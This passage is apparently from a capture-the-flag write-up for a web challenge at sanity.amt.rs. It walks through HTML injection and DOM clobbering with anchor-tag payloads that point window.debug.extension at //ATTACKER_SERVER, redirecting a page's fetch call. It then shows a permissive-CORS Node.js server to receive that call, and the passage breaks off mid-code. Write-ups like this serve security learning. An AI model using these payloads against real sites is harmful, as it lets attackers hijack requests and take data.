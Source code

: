 Once that was enabled, HTML injection worked! Submitting the following payload as the `title` and `paste` values, produced **bold** output 🔥
```html
<b>420</b>
```

Unfortunately, I got stuck again at the next step and switching to Chrome solved it (you might want to do the same, if you're having issues).

### Part 1: DOM Clobbering
We review some of the earlier documentation, or use this awesome [DOMC Payload Generator](https://domclob.xyz/domc_payload_generator)
```txt
target: debug.extension
value: //ATTACKER_SERVER
```

We can try the various payloads and each time check the value of `window.debug.extension` in the console.
```html
<a id="debug"></a><a id="debug" name="extension" href="//ATTACKER_SERVER"></a>
```

```js
>> window.debug.extension.toString()
<- 'https://attacker_server'
```

Perfect! So we know that
```js
fetch(window.debug?.extension.toString())
```
will actually be 
```js
fetch('https://attacker_server')
```

Side note: The [official solution](https://gist.github.com/voxxal/fb69443f0a31bc6f2ddbce763d609935#sanity) from the challenge author used a different technique. By specifying the `data` value, they were able to assign the desired JSON object directly.
```js
<a id=debug><a id=debug name=extension href='data:;,{"report": true}'>
```

If, like me, you were using a `SimpleHTTPServer` with python, exposed via `ngrok` then you'll notice you didn't receive a request.

Checking the console again, you'll see why.
>Access to fetch at `https://ATTACKER_SERVER/` from origin `https://sanity.amt.rs` has been blocked by `CORS` policy: **No 'Access-Control-Allow-Origin' header is present on the requested resource**. If an opaque response serves your needs, set the request's mode to 'no-cors' to fetch the resource with CORS disabled.

There's various ways we can add this header, e.g. launching `ngrok` with `--request-header-add "Access-Control-Allow-Origin: *"`.

In this case, I used a `nodejs` app (exposed via `ngrok`).
```js
const http = require("http");

const server = http.createServer((req, res) => {
  // Set the Access-Control-Allow-Origin header to allow requests from any origin
  res.setHeader("Access-Control-Allow-Origin", "*");

  // Send the response
  res.end('{}');
});

const port = 3000;
server.listen(port, () => {
```